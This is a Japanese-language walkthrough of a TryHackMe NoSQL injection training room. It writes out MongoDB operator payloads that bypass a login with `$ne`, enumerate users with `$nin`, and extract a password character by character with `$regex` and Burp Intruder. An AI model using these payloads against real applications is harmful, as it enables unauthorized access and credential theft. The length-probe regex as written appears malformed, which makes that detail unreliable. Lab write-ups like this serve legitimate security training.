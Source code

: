 # NoSQL Injection Tutorial
https://tryhackme.com/room/nosqlinjectiontutorial

## Task1
MongoDBで使用できるQuery  
https://docs.mongodb.com/manual/reference/operator/query/

比較
- `$eq` =
- `$ne` !=
- `$gt` >
- `$lt` <
 
その他いろいろある
- `$nin` not in an array
- `$regex` 正規表現

## Task2
設問なし

## Task3
元のPOSTリクエストBODY
> user=hoge&pass=fuga

ユーザ、パスともに不一致を条件にして実行
> user`[$ne]`=hoge&pass`[$ne]`=fuga

DBから返却された一番上のユーザ（admin）で認証に成功する

## Task4
`$nin`を使用し、adminではないユーザを調べる。  
> user`[$nin][]`=admin&pass[$ne]=fuga

リストなので、複数指定することも可能。
> user`[$nin][]`=admin&user`[$nin][]`=pedro&pass[$ne]=fuga

## Task5
正規表現を使用し、パスワードが何文字か特定する。
> user=pedro&pass`[$regex]`=`^{8}$`  
> user=pedro&pass`[$regex]`=`^{7}$`  
> user=pedro&pass`[$regex]`=`^{6}$`  
> user=pedro&pass`[$regex]`=`^{5}$`  

文字数を特定したら、先頭から1文字ずつ試して特定していく。
> user=pedro&pass`[$regex]`=`^a....$`  
> user=pedro&pass`[$regex]`=`^b....$`  
> user=pedro&pass`[$regex]`=`^c....$`  
> user=pedro&pass`[$regex]`=`^d....$`  
> user=pedro&pass`[$regex]`=`^e....$`

### BurpのIntruderを使用して、少しだけ効率化する。  
Positionsで、書き換えたい箇所を`§`で囲う。
> user=pedro&pass[$regex]=^§a§....$

Payloadsで英数字1文字だけのSimple listをセットする。
```
0
1
2
:
8
9
a
b
c
:
x
y
z
```

1文字特定したら2文字目に移る…を繰り返し。
> user=pedro&pass[$regex]=^1§a§...$

得られたパスワードを使用してSSH接続するとフラグが置かれていて、それが正解。
